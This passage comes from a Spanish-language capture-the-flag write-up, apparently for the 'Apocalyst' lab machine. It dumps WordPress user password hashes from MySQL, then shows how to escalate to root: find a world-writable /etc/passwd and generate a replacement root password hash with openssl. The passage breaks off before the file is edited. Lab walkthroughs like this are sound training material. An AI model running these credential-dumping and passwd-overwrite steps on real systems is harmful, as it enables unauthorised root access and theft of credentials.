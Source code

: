 ```bash
| user_pass           | varchar(255)        | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   | MUL |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)        | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
+---------------------+---------------------+------+-----+---------------------+----------------+
10 rows in set (0.00 sec)

mysql> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| falaraki   | $P$BnK/Jm451thx39mQg0AFXywQWZ.e6Z. |
+------------+------------------------------------+
1 row in set (0.00 sec)

mysql> 
```

## Shell as root and root.txt 

Si vemos archivos los cuales tengamos privilegios de escritura encontramos este que ya es interesante

```bash
www-data@apocalyst:/$ find / -writable -ls 2>/dev/null | grep -vE "/var|/run|/tmp|/dev|/lib|/sys|/proc"
    37330      4 -rw-rw-rw-   1 root     root         1637 Jul 26  2017 /etc/passwd
www-data@apocalyst:/$ 
```

Cuando tu haces por ejemplo un `sudo su` siempre va a comparar con lo que hay en el `/etc/shadow` para dejarte convertirte en el otro usuario al cual te quieras convertir pero para evitar eso lo que podemos hacer es modificar en el `/etc/passwd` nosotros decirle cual es la cadena encriptada para que no aplique la comparativa con el `/etc/shadow` si no directamente con lo que le proporcionamos

```bash
www-data@apocalyst:/$ cat /etc/passwd | head -n 1
root:x:0:0:root:/root:/bin/bash
www-data@apocalyst:/$ 
```

Para esto podemos usar `openssl` y poner lo que tu quieras para que nos cree la cadena

```bash
www-data@apocalyst:/$ openssl passwd
Password: 
Verifying - Password: 
/Wdb/9WH9GO3Q
www-data@apocalyst:/$ 
```
